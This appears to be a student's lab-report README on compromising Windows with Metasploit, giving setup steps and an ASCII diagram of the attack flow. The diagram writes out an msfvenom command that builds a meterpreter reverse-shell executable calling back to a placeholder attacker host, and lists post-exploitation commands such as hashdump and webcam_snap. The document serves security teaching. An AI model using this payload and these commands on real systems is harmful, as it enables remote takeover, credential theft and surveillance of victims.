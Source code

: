 # NAME: K.HEMANATH
# REGISTER NO: 212223100012
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
```